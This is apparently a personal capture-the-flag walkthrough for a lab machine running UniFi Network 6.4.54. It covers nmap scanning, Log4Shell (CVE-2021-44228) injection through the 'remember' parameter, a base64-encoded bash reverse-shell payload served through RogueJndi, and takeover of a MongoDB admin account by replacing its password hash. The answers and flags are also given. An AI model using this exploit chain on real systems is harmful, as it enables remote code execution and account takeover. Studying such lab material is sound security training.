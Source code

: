 
___

### Q1: Which are the first four open ports?

#### A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

___

### Q2: What is the title of the software that is running running on port 8443?

#### A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

___

### Q3: What is the version of the software that is running?

#### A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

___

### Q4: What is the CVE for the identified vulnerability?

#### A: CVE-2021-44228

Googling around i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

___

### Q5: What protocol does JNDI leverage in the injection?

#### A: LDAP

Looking at that cve we get it.

![](../../Img/Pasted%20image%2020250424153434.png)

___

### Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

#### A: tcpdump

It's just the tool for that.

___

### Q7: What port do we need to inspect intercepted traffic for?

#### A: 389

It looks like ldap traffic goes to port 389

![](../../Img/Pasted%20image%2020250424155244.png)

___

### Q8: What port is the MongoDB service running on?

#### A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error

![](../../Img/Pasted%20image%2020250424160606.png)

but also a connection

![](../../Img/Pasted%20image%2020250424160627.png)

With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"

![](../../Img/Pasted%20image%2020250424162840.png)

in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection

![](../../Img/Pasted%20image%2020250424163652.png)

Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)

![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just Googling it i connected to the mongo instance and listed the db

![](../../Img/Pasted%20image%2020250424164412.png)

![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

Q11: What is the function we use to update users within the database in MongoDB?

A: db.admin.update()

Following the trend here, i got no problem with this one .

Q12: What is the password for the root user?

A: NotACrackablePassword4U2022

I Chose the Shadow Admin method from the article. I created a pswd (qweqwe12345), sha-512 it, replace the one the admin had with (db.admin.update())
and just log in

![](../../Img/Pasted%20image%2020250424170005.png)

Now, in the Steal SSH Creds it says how to get the answer

![](../../Img/Pasted%20image%2020250424170142.png)

Q13: Submit user flag

A: 6ced1a6a89e666c0620cdb10262ba127

shh into it 

![](../../Img/Pasted%20image%2020250424170310.png)

go find it

![](../../Img/Pasted%20image%2020250424170542.png)

Q14: Submit root flag

A: e50bc93c75b634e4b272d2f771c33681

Look for it 

![](../../Img/Pasted%20image%2020250424170430.png)

Tags: [Nmap](../../Index/Nmap.md)